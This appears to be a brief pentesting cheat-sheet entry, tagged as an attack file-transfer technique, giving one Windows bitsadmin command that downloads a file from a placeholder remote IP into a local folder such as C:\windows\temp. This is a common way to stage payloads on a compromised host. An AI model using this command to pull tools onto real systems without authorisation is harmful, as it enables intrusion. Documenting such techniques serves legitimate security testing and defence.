 # Bitadmins

% windows, certutil

## Download file with bitsadmin
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFER 
```
bitsadmin /Transfer myJob http://<ip>/<file|file.txt> <path|C:\windows\temp>
```